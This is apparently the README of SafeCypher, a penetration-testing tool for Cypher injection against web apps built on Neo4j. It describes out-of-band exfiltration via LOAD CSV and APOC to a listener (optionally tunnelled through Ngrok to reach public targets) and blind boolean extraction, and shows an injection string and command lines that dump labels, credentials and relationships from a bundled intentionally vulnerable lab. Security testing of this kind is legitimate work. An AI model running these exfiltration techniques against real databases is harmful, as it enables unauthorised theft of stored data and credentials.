


# Table of Content

- [Table of Content](#table-of-content)
- [SafeCypher](#safecypher)
  * [Features](#features)
    + [LOAD CSV Method](#load-csv-method)
      - [Ngrok Integration for Out-of-Band Data Exfiltration](#ngrok-integration-for-out-of-band-data-exfiltration)
    + [Blind Boolean Method](#blind-boolean-method)
      - [Threading](#threading)
    + [Visualizing Data Relationships](#visualizing-data-relationships)
  * [Background](#background)
- [Testing Methodology](#testing-methodology)
  * [Testing Environment Setup](#testing-environment-setup)
    + [Testing Scenarios and Methodologies](#testing-scenarios-and-methodologies)
      - [Field 1: Apostrophe Injection (')](#field-1--apostrophe-injection----)
      - [Field 2: Quotation Injection (")](#field-2--quotation-injection----)
      - [Field 3: Numeric or Blank Payloads](#field-3--numeric-or-blank-payloads)
      - [Field 4: Complex Payload Termination ('})](#field-4--complex-payload-termination-----)
      - [Field 5: Complex Payload Termination ("})](#field-5--complex-payload-termination-----)
  * [Continuous Refinement and Security Insights](#continuous-refinement-and-security-insights)
- [Getting Started](#getting-started)
  * [Safecypher Installation](#safecypher-installation)
    + [Standard Installation](#standard-installation)
    + [Using a Virtual Environment](#using-a-virtual-environment)
  * [Vulnerable Neo4j Server Installation](#vulnerable-neo4j-server-installation)
    + [Prerequisites](#prerequisites)
    + [Setup Instructions](#setup-instructions)
    + [Accessing the Services](#accessing-the-services)
    + [Important Notes](#important-notes)
  * [Usage](#usage)
    + [Help](#help)
    + [Out-of-band (LOADCSV/APOC.LOAD.CSV/JSON)](#out-of-band--loadcsv-apocloadcsv-json-)
      - [Utilizing Ngrok for Public Testing](#utilizing-ngrok-for-public-testing)
    + [In-Band (Blind Boolean)](#in-band--blind-boolean-)
  * [Screenshots](#screenshots)
- [Future Plans](#future-plans)
    + [Enhanced Input Handling](#enhanced-input-handling)
    + [Complex Query Simulation](#complex-query-simulation)
- [Inspiration](#inspiration)
- [Credits](#credits)


# SafeCypher 


 [](https://www.python.org/) 


SafeCypher is a comprehensive tool designed to aid developers and penetration testers in evaluating the security measures of web servers that interact with Neo4j databases. It provides two primary methods for data exfiltration and supports testing across GET/POST/API endpoints.

## Features 
- **Data Exfiltration Methods** :
	1. Utilizes APOC procedures and the LOAD CSV clause in Neo4j to exfiltrate data to an external server
	2. Employs boolean-based injection technique to exfiltrate labels, properties, and their corresponding values, one character at a time. 
- **Threading** : Enables efficient processing through threading. 
- **Ngrok Integration** : Allows for the reception of traffic from public targets, enhancing the tool's applicability in diverse security testing scenarios.
- **PyVis** : Supports the graphical display of node relationships, mimicking Neo4j's visualization capabilities, to aid in the analysis and understanding of data structures and connections.

### LOAD CSV Method

`LOADCSV` Method employs out-of-band technique leveraging `LOAD CSV` or `APOC.LOAD.CSV/JSON` to initiate requests to an external webserver. By injecting specific syntax, we effectively terminate the intended Cypher Query and introduce an additional query to enumerate the database. This enumerated data is then assigned to a variable. Utilizing the `LOADCSV` or `APOC.LOAD.CSV/JSON` method, we make a request that incorporates this variable, thereby initiating a web request to an external server. This request conveys all the exfiltrated data, allowing us to capture and analyze the information securely and efficiently outside the bounds of the original database environment.

`APOC.LOAD.CSV/JSON` serves as an alternative to the LOAD CSV clause, providing a viable option should LOAD CSV be restricted. Conversely, both functionalities essentially achieve the same objective, enabling the importation of data from an external web server into the Neo4j database environment. This flexibility ensures that data exfiltration can proceed effectively, regardless of specific restrictions on either method.

#### Ngrok Integration for Out-of-Band Data Exfiltration

To facilitate out-of-band (OOB) data exfiltration in environments where direct access to the target system's network might not be possible. This feature enables the redirection of web requests from public targets through an Ngrok tunnel, directly to your local listener.


- **Ngrok Token:** Users must first specify their Ngrok authentication token within SafeCypher. This token ensures a secure connection between your Ngrok account and the SafeCypher tool, enabling the creation of a public-facing URL that tunnels to your local environment.
- **Public IP via Ngrok:** Once a public IP is established through Ngrok, SafeCypher configures the out-of-band data exfiltration payloads to direct the extracted data to this public endpoint. The data is then  tunneled to your local listener, ensuring you receive the exfiltrated information.
- **Set Up Ngrok:** Ensure you have an Ngrok account and have installed Ngrok on your system. If you haven't, visit [Ngrok's official website](https://ngrok.com/) for setup instructions.


### Blind Boolean Method

This method is available for Neo4j versions 5.3 and above, taking advantage of the advanced query capabilities introduced in these versions.
- [Deprecations, additions, and compatibility - Cypher Manual](https://neo4j.com/docs/cypher-manual/current/deprecations-additions-removals-compatibility/#cypher-deprecations-additions-removals-5.3)

Blind Boolean method employs an in-band technique. While this approach is notably slower, it significantly increases the probability of successfully exfiltrating data as it does not depend on the LOAD CSV or APOC procedures, effectively circumventing potential restrictions. The implementation of this technique requires a preliminary true-resulting from the neo4j db input from the user. Following this input, specific syntax (For e.g. `EXISTS' AND EXISTS {} AND '1337' = '1337`) is injected to complete the intended Cypher query and introduce an `AND` clause, coupled with a subquery designed to evaluate to true. This process is conducted meticulously, character by character. Utilizing a Python script, we systematically identify and enumerate the characters that yield a true result. And to allow the original query to complete successfully, we insert the same syntax utilized for injection to append an additional statement, this ensures the original query executes as intended, provided the subquery evaluates to true

#### Threading

Recognizing the inherently slow nature of blind injection attacks, SafeCypher has been designed with threading capabilities to accelerate the exfiltration process. This feature is crucial for optimizing the performance of boolean-based injection techniques, which, while highly effective, can be time-consuming due to the character-by-character data retrieval process.


### Visualizing Data Relationships

If the exfiltration is successfull, we have the capability, through PyVis, to visualize nodes and their interconnections in a manner akin to the Neo4j browser. This graphical representation allows for an intuitive understanding of the data structure and relationships, facilitating a deeper analysis and insight into the database's schema and connectivity.


## Background

The development of SafeCypher was inspired by the realization that web attacks targeting Neo4j databases are not widely recognized within the cybersecurity community. There's a notable scarcity of readily accessible information and resources on this specific topic, which poses a challenge for developers and security professionals aiming to understand and mitigate such vulnerabilities.

In response to this, SafeCypher was created with the intention to fill this gap by providing a tool that not only aids in identifying and addressing Cypher injection vulnerabilities but also contributes to the broader body of knowledge on securing Neo4j databases against web attacks. Throughout the development process, I focused on generating payloads tailored for these vulnerabilities—many of which have seen limited availability online until now.

The primary goal of SafeCypher is to enhance awareness about the security challenges associated with Neo4j databases and to equip the cybersecurity community with more tools to defend against advanced web attacks. By sharing this tool, I hope to encourage further exploration, discussion, and advancement in the field of database security.


# Testing Methodology
  
To ensure the robustness and adaptability of our tool across diverse environments, we've developed our own vulnerable Neo4j webserver. This controlled testing platform allows us to meticulously refine SafeCypher, ensuring it is finely tuned to detect and exploit vulnerabilities in a wide range of scenarios. This approach not only enhances the tool's effectiveness but also provides valuable insights into potential security gaps within Neo4j webservers.


## Testing Environment Setup

The bespoke webserver we crafted specifically for testing purposes features five distinct input fields, each designed to assess SafeCypher's capability under various conditions. These fields are integral to our testing methodology, as they simulate different types of vulnerabilities by exposing a variety of Cypher query syntaxes that are susceptible to injection attacks. This diversity in testing scenarios is crucial for evaluating SafeCypher's effectiveness and versatility in identifying and exploiting Neo4j database vulnerabilities.

### Testing Scenarios and Methodologies

Each field presents a unique challenge by incorporating a specific character or pattern, assessing how well SafeCypher can identify and utilize these for data exfiltration.

#### Field 1: Apostrophe Injection (')

- **Objective**: To determine SafeCypher's ability to exploit queries vulnerable to apostrophe ('), commonly used in string delimitation.

#### Field 2: Quotation Injection (")

- **Objective**: Test SafeCypher's capacity to handle injection attacks using double quotes ("), which may enclose string literals in Cypher queries.

#### Field 3: Numeric or Blank Payloads

- **Objective**: Evaluate the tool's proficiency with numeric values or blank spaces as injection vectors, which can alter query logic without traditional string delimiters.

#### Field 4: Complex Payload Termination ('})

- **Objective**: Assess SafeCypher's effectiveness in terminating and appending queries with complex characters ('}), a tactic that can manipulate query execution flow.

#### Field 5: Complex Payload Termination ("})

- **Objective**: Challenge SafeCypher with another layer of complexity by using "}) to terminate and manipulate the Cypher query execution.

## Continuous Refinement and Security Insights

This varied testing approach, focusing on different injection characters, is instrumental in enhancing SafeCypher's algorithmic precision and its versatility in identifying vulnerabilities. By subjecting SafeCypher to these diversified injection scenarios, we not only fine-tune its detection and exploitation mechanisms but also deepen our understanding of the myriad ways Neo4j databases can be compromised. 


# Getting Started

## Safecypher Installation

### Standard Installation

Execute the following commands in your terminal to clone the SafeCypher repository and install the dependencies:

```bash
git clone https://github.com/yourusername/safecypher.git
cd safecypher
pip3 install -r requirements.txt
```

This method installs SafeCypher and its dependencies globally on your system.

### Using a Virtual Environment

For those who prefer working within a virtual environment to avoid altering system-wide packages, follow these steps: 


1. **Create a Virtual Environment** : Generate a new virtual environment by running:
	```bash
	virtualenv venv3 -p $(which python3)
	```
2. **Activate the Virtual Environment** : Before installing the dependencies, activate the newly created virtual environment:
	```bash
	source venv3/bin/activate
	```
3. **Clone the Repository and Install Dependencies** : Finally, clone the SafeCypher repository and install the required Python packages in your virtual environment:
	```bash
	git clone https://github.com/yufongg/safecypher.git
	cd safecypher
	pip3 install -r requirements.txt
	```


## Vulnerable Neo4j Server Installation

To facilitate the testing of SafeCypher in a controlled environment, we've prepared a Docker setup that includes a vulnerable Neo4j database and a Python Flask webserver. This environment is designed to simulate common vulnerabilities associated with Neo4j databases, allowing users to safely explore and understand the potential security risks.

### Prerequisites

Ensure you have Docker and Docker-compose installed on your machine. For installation instructions, visit [Docker's official documentation]() .

### Setup Instructions 
1. Clone the repository containing the Docker configuration:
	```bash
	git clone https://github.com/yufongg/safecypher.git
	``` 
2. Navigate to the directory containing the `docker-compose.yml` file:
	```bash
	cd custom
	``` 
3. Launch the vulnerable server environment using Docker-compose:
	```css
	docker-compose up --build
	```

This command builds and starts the containers defined in the `docker-compose.yml` file. Once the process completes, the following services will be available for testing: 
- **Neo4j Database** : Accessible with the credentials `neo4j:hellohello`. The database is pre-configured with data and relationships to simulate a real-world application scenario. 
- **Python Flask Webserver** : Hosts a web application with several endpoints, each designed to interact with the Neo4j database. The webserver is intentionally vulnerable to Cypher injection attacks and can be accessed using the credentials `admin:password`.


### Accessing the Services 
- The Neo4j database is accessible at `http://localhost:7474` with the  credentials provided. 
- The Python Flask webserver can be interacted with through the browser or tools like cURL, available at `http://localhost:5000`.


### Important Notes 
- This environment is intended **strictly for educational and testing purposes** . Do not deploy this environment in production or expose it to the internet. 
- Always ensure to shut down the Docker containers after testing to prevent any unnecessary resource usage:

```
docker-compose down
```


## Usage

The commands below are tested on the vulnerable neo4j server

### Help

```
┌──(root💀kali)-[~/tools/web/safecypher]
└─$ python3 safecypher.py --help
usage: safecypher.py [-h] -u URL [-p PARAMETERS] [-c COOKIE] -m {API,GET,POST} [-i INT] [-s BLIND_STRING] [--listen-port LISTEN_PORT] [--out-of-band]
              [--in-band] [--dump-all] [--labels] [-L LABEL] [--properties] [-P PROPERTY] [-R] [-t THREADS]

Inject payloads into Neo4j for educational purposes

options:
  -h, --help            show this help message and exit
  -u URL, --url URL     Target URL
  -p PARAMETERS, --parameters PARAMETERS
                        Vulnerable parameters
  -c COOKIE, --cookie COOKIE
                        Optional cookie in format key=value
  -m {API,GET,POST}, --method {API,GET,POST}
                        Request method
  -i INT, --int INT     Network interface for dynamic IP retrieval, 'public' for ngrok
  -s BLIND_STRING, --blind-string BLIND_STRING
                        String that returns true from the database
  --listen-port LISTEN_PORT
                        Listener port
  --out-of-band         Enable out-of-band (OOB) mode, uses LOADCSV/APOC.LOAD.JSON/CSV
  --in-band             Enable in-band (IB) mode, uses boolean based injection
  --dump-all            Dumps all data
  --labels              Dump labels
  -L LABEL, --label LABEL
                        Specify a label for property or value dumping
  --properties          Dump properties for a specified label (-L)
  -P PROPERTY, --property PROPERTY
                        Specify properties to dump values; to dump values of multiple properties, delimit each property with a comma (e.g.
                        foo,bar) (-L must also be used)
  -R, --relationships   Dump all relationships in the database
  -t THREADS, --threads THREADS
```


### Out-of-band (LOADCSV/APOC.LOAD.CSV/JSON)

1. Dump labels
	```
	┌──(root💀kali)-[~/tools/web/safecypher]
	└─$ python3 safecypher.py -u http://127.0.0.1:5000/search1 -p keyboard_name -i eth0 -m POST -s "Kohaku" -c "session=.eJwljjkOwkAQBP-yMcEce_ozaI4d4QACG0eIv7MSUSVdrfqkexzzfKTtfVzzlu67py05QhmVWxZrKqxAYNg5q_fqvUhDos5kE2FGZBFuwTRNyJCKqIHVaM5tOluRdZdjCiwGVlbCUSG7WVmLFjZ4GaOAFu3DkTStkOucx79G_Lm_0vcHlIYxkw.ZhBXpw.UyRIVeXBJ-HKO95YpMo32ceI0Fg" --out-of-band --labels
	
	APOC detected, retrieving APOC version...
	+------+----------------+
	| ID   | apoc_version   |
	+======+================+
	| -    | 5.18.0         |
	+------+----------------+
	APOC Version 5.18.0 is not affected by the known vulnerabilities.
	
	Use APOC to exfiltrate?
	Enter 1 for apoc.load.json, anything else to not use APOC: 1
	[*] target likely injectable, continuing
	[+] working character: [-8381']
	
	[*] Version Check [*]
	+------+--------------+-----------+-----------+
	| ID   | name         | version   | edition   |
	+======+==============+===========+===========+
	| -    | Neo4j Kernel | 5.18.1    | community |
	+------+--------------+-----------+-----------+
	
	[*] available labels [5]:
	[+] User
	[+] Keyboard
	[+] Character
	[+] Place
	[+] Organization
	```

2. Dump properties in relation to label
	```
	┌──(root💀kali)-[~/tools/web/safecypher]
	└─$ python3 safecypher.py -u http://127.0.0.1:5000/search1 -p keyboard_name -i eth0 -m POST -s "Kohaku" -c "session=.eJwljjkOwkAQBP-yMcEce_ozaI4d4QACG0eIv7MSUSVdrfqkexzzfKTtfVzzlu67py05QhmVWxZrKqxAYNg5q_fqvUhDos5kE2FGZBFuwTRNyJCKqIHVaM5tOluRdZdjCiwGVlbCUSG7WVmLFjZ4GaOAFu3DkTStkOucx79G_Lm_0vcHlIYxkw.ZhBXpw.UyRIVeXBJ-HKO95YpMo32ceI0Fg" --out-of-band -L User --properties
	
	[*] Label: User
	[+] available properties [2]:
	[++] password
	[++] username
	```
3. Dump values in relation to label and properties
	```
	┌──(root💀kali)-[~/tools/web/safecypher]
	└─$ python3 safecypher.py -u http://127.0.0.1:5000/search1 -p keyboard_name -i eth0 -m POST -s "Kohaku" -c "session=.eJwljjkOwkAQBP-yMcEce_ozaI4d4QACG0eIv7MSUSVdrfqkexzzfKTtfVzzlu67py05QhmVWxZrKqxAYNg5q_fqvUhDos5kE2FGZBFuwTRNyJCKqIHVaM5tOluRdZdjCiwGVlbCUSG7WVmLFjZ4GaOAFu3DkTStkOucx79G_Lm_0vcHlIYxkw.ZhBXpw.UyRIVeXBJ-HKO95YpMo32ceI0Fg" --out-of-band -L User -P username,password
	
	[*] Label: User
	[+] available properties [2]:
	[++] username [1]:
	[+++] admin
	[++] password [1]:
	[+++] password
	
	[*] Label: User
	[+] available properties [2]:
	[++] username
	[++] password
	+------+------------+------------+
	|   ID | username   | password   |
	+======+============+============+
	|    0 | admin      | password   |
	+------+------------+------------+
	```

4. Dump relationships
	```
	┌──(root💀kali)-[~/tools/web/safecypher]
	└─$ python3 safecypher.py -u http://127.0.0.1:5000/search1 -p keyboard_name -i eth0 -m POST -s "Kohaku" -c "session=.eJwljjkOwkAQBP-yMcEce_ozaI4d4QACG0eIv7MSUSVdrfqkexzzfKTtfVzzlu67py05QhmVWxZrKqxAYNg5q_fqvUhDos5kE2FGZBFuwTRNyJCKqIHVaM5tOluRdZdjCiwGVlbCUSG7WVmLFjZ4GaOAFu3DkTStkOucx79G_Lm_0vcHlIYxkw.ZhBXpw.UyRIVeXBJ-HKO95YpMo32ceI0Fg" --out-of-band  --relationship
	
	[*] exfiltrating relationships
	
	[*] relationships types [8]:
	[+] FAMILY
	[+] PARTNER
	[+] ENEMY
	[+] FRIEND
	[+] WORKS_FOR
	[+] OWNS
	[+] VISITS
	[+] LAWYER_FOR
	
	[*] available relationships [11]
	[+] FAMILY
	[++] Character:4-[:FAMILY]->Character:7
	[+] PARTNER
	[++] Character:4-[:PARTNER]->Character:5
	[+] ENEMY
	[++] Character:4-[:ENEMY]->Character:6
	[+] FRIEND
	[++] Character:5-[:FRIEND]->Character:4
	[+] WORKS_FOR
	[++] Character:6-[:WORKS_FOR]->Organization:12
	[++] Character:4-[:WORKS_FOR]->Organization:13
	[+] OWNS
	[++] Character:4-[:OWNS]->Place:9
	[++] Character:8-[:OWNS]->Place:11
	[+] VISITS
	[++] Character:5-[:VISITS]->Place:10
	[+] LAWYER_FOR
	[++] Character:8-[:LAWYER_FOR]->Character:4
	[++] Character:8-[:LAWYER_FOR]->Character:5
	
	[!] View node relationship graph: file:///root/tools/web/safecypher/output/network.html
	```
5. Dump everything
	```
	┌──(root💀kali)-[~/tools/web/safecypher]
	└─$ python3 safecypher.py -u http://127.0.0.1:5000/search1 -p keyboard_name -i eth0 -m POST -s "Kohaku" -c "session=.eJwljjkOwkAQBP-yMcEce_ozaI4d4QACG0eIv7MSUSVdrfqkexzzfKTtfVzzlu67py05QhmVWxZrKqxAYNg5q_fqvUhDos5kE2FGZBFuwTRNyJCKqIHVaM5tOluRdZdjCiwGVlbCUSG7WVmLFjZ4GaOAFu3DkTStkOucx79G_Lm_0vcHlIYxkw.ZhBXpw.UyRIVeXBJ-HKO95YpMo32ceI0Fg" --out-of-band --dump-all
	```

#### Utilizing Ngrok for Public Testing

1. Set Ngrok authtoken.
	```
	┌──(root💀kali)-[~/tools/web/safecypher]
	└─$ export NGROK_AUTHTOKEN=<your token>
	```
2. Change the interface to 'public' for wide-reaching tests, allowing SafeCypher to perform comprehensive assessments on accessible Neo4j databases.
	```
	# change -i to public
	┌──(root💀kali)-[~/tools/web/safecypher]
	└─$ python3 safecypher.py -u http://127.0.0.1:5000/search1 -p keyboard_name -i public -m POST -s "Kohaku" -c "session=.eJwljjkOwkAQBP-yMcEce_ozaI4d4QACG0eIv7MSUSVdrfqkexzzfKTtfVzzlu67py05QhmVWxZrKqxAYNg5q_fqvUhDos5kE2FGZBFuwTRNyJCKqIHVaM5tOluRdZdjCiwGVlbCUSG7WVmLFjZ4GaOAFu3DkTStkOucx79G_Lm_0vcHlIYxkw.ZhBXpw.UyRIVeXBJ-HKO95YpMo32ceI0Fg" --out-of-band --dump-all
	```

### In-Band (Blind Boolean)
1. Dump labels
	```
	┌──(root💀kali)-[~/tools/web/safecypher]
	└─$ python3 safecypher.py -u http://127.0.0.1:5000/search1 -p keyboard_name -m POST -s "Kohaku" -c "session=.eJwljjkOwkAQBP-yMcEce_ozaI4d4QACG0eIv7MSUSVdrfqkexzzfKTtfVzzlu67py05QhmVWxZrKqxAYNg5q_fqvUhDos5kE2FGZBFuwTRNyJCKqIHVaM5tOluRdZdjCiwGVlbCUSG7WVmLFjZ4GaOAFu3DkTStkOucx79G_Lm_0vcHlIYxkw.ZhBXpw.UyRIVeXBJ-HKO95YpMo32ceI0Fg" --in-band --labels -t 2
	
	[*] target likely injectable, continuing
	[+] working character: [']
	
	[*] available labels [5]
	[+] User
	[+] Keyboard
	[+] Character
	[+] Place
	[+] Organization
	```

2. Dump properties in relation to label
	```
	┌──(root💀kali)-[~/tools/web/safecypher]
	└─$ python3 safecypher.py -u http://127.0.0.1:5000/search1 -p keyboard_name -m POST -s "Kohaku" -c "session=.eJwljjkOwkAQBP-yMcEce_ozaI4d4QACG0eIv7MSUSVdrfqkexzzfKTtfVzzlu67py05QhmVWxZrKqxAYNg5q_fqvUhDos5kE2FGZBFuwTRNyJCKqIHVaM5tOluRdZdjCiwGVlbCUSG7WVmLFjZ4GaOAFu3DkTStkOucx79G_Lm_0vcHlIYxkw.ZhBXpw.UyRIVeXBJ-HKO95YpMo32ceI0Fg" --in-band -L User --properties -t 2
	
	[*] target likely injectable, continuing
	[+] working character: [']
	
	[*] Label: User
	[+] available properties [2]:
	[++] password
	[++] username
	```


3. Dump values in relation to label and properties
	```
	┌──(root💀kali)-[~/tools/web/safecypher]
	└─$ python3 safecypher.py -u http://127.0.0.1:5000/search1 -p keyboard_name -m POST -s "Kohaku" -c "session=.eJwljjkOwkAQBP-yMcEce_ozaI4d4QACG0eIv7MSUSVdrfqkexzzfKTtfVzzlu67py05QhmVWxZrKqxAYNg5q_fqvUhDos5kE2FGZBFuwTRNyJCKqIHVaM5tOluRdZdjCiwGVlbCUSG7WVmLFjZ4GaOAFu3DkTStkOucx79G_Lm_0vcHlIYxkw.ZhBXpw.UyRIVeXBJ-HKO95YpMo32ceI0Fg" --in-band -L User -P username,password -t 2
	
	[*] target likely injectable, continuing
	[+] working character: [']
	
	[*] Label: User
	[+] available properties [2]:
	[++] username [1]:
	[+++] admin
	[++] password [1]:
	[+++] password
	
	[*] Label: User
	[+] available properties [2]:
	[++] username
	[++] password
	+------+------------+------------+
	|   ID | username   | password   |
	+======+============+============+
	|    0 | admin      | password   |
	+------+------------+------------+
	```

4. Dump relationships
	```
	┌──(root💀kali)-[~/tools/web/safecypher]
	└─$ python3 safecypher.py -u http://127.0.0.1:5000/search1 -p keyboard_name -m POST -s "Kohaku" -c "session=.eJwljjkOwkAQBP-yMcEce_ozaI4d4QACG0eIv7MSUSVdrfqkexzzfKTtfVzzlu67py05QhmVWxZrKqxAYNg5q_fqvUhDos5kE2FGZBFuwTRNyJCKqIHVaM5tOluRdZdjCiwGVlbCUSG7WVmLFjZ4GaOAFu3DkTStkOucx79G_Lm_0vcHlIYxkw.ZhBXpw.UyRIVeXBJ-HKO95YpMo32ceI0Fg" --in-band --relationship -t 2
	
	[*] exfiltrating relationships
	
	[*] relationships types [8]:
	[+] FAMILY
	[+] PARTNER
	[+] ENEMY
	[+] FRIEND
	[+] WORKS_FOR
	[+] OWNS
	[+] VISITS
	[+] LAWYER_FOR
	
	[*] available relationships [11]
	[+] FAMILY
	[++] Character:4-[:FAMILY]->Character:7
	[+] PARTNER
	[++] Character:4-[:PARTNER]->Character:5
	[+] ENEMY
	[++] Character:4-[:ENEMY]->Character:6
	[+] FRIEND
	[++] Character:5-[:FRIEND]->Character:4
	[+] WORKS_FOR
	[++] Character:6-[:WORKS_FOR]->Organization:12
	[++] Character:4-[:WORKS_FOR]->Organization:13
	[+] OWNS
	[++] Character:4-[:OWNS]->Place:9
	[++] Character:8-[:OWNS]->Place:11
	[+] VISITS
	[++] Character:5-[:VISITS]->Place:10
	[+] LAWYER_FOR
	[++] Character:8-[:LAWYER_FOR]->Character:4
	[++] Character:8-[:LAWYER_FOR]->Character:5
	
	[!] View node relationship graph: file:///root/tools/web/safecypher/output/network.html
	```


5. Dump everything
	```
	┌──(root💀kali)-[~/tools/web/safecypher]
	└─$ python3 safecypher.py -u http://127.0.0.1:5000/search1 -p keyboard_name -m POST -s "Kohaku" -c "session=.eJwljjkOwkAQBP-yMcEce_ozaI4d4QACG0eIv7MSUSVdrfqkexzzfKTtfVzzlu67py05QhmVWxZrKqxAYNg5q_fqvUhDos5kE2FGZBFuwTRNyJCKqIHVaM5tOluRdZdjCiwGVlbCUSG7WVmLFjZ4GaOAFu3DkTStkOucx79G_Lm_0vcHlIYxkw.ZhBXpw.UyRIVeXBJ-HKO95YpMo32ceI0Fg" --in-band --dump-all -t 2
	```

## Screenshots






# Future Plans
### Enhanced Input Handling

One of our immediate goals is to refine SafeCypher's input handling capabilities. We aim to support forms that require multiple inputs, ensuring that our tool can effectively interact with more complex web forms. This enhancement will allow users to specify multiple form fields, overcoming current limitations where incomplete form submissions may result in failed exfiltration attempts.

### Complex Query Simulation

Our testing environment serves as a crucial part of SafeCypher's development, providing a sandbox for thorough testing and refinement. Moving forward, we plan to introduce more complex queries into this environment. By simulating a broader range of potential vulnerabilities and attack scenarios, we will be able to further hone SafeCypher's detection and exfiltration mechanisms, ensuring it remains a robust tool against evolving security threats.

# Inspiration

The development of SafeCypher was inspired by a number of existing tools and resources within the cybersecurity domain. These tools have paved the way for advancements in security testing and have provided invaluable insights into the complexities of database security. Below are some of the tools and resources that have influenced the creation of SafeCypher:

- **Cypher Playground:** [GitHub - noypearl/cypher-playground: Spongebob-themed cypher injection playground](https://github.com/noypearl/cypher-playground)
- **Varonis Blogpost**: [Neo4jection: Secrets, Data, and Cloud Exploits](https://www.varonis.com/blog/neo4jection-secrets-data-and-cloud-exploits)
- **Cyphermap**: [GitHub - sectroyer/cyphermap: A tool for mapping cypher databases](https://github.com/sectroyer/cyphermap/tree/main)

We extend our gratitude to the developers and researchers behind these pioneering tools and resources. Their work has significantly has been instrumental in shaping the features and capabilities of SafeCypher.

# Credits

- Yu Fong
- Thaddeus
- Melvin
- Darius
- Ray Son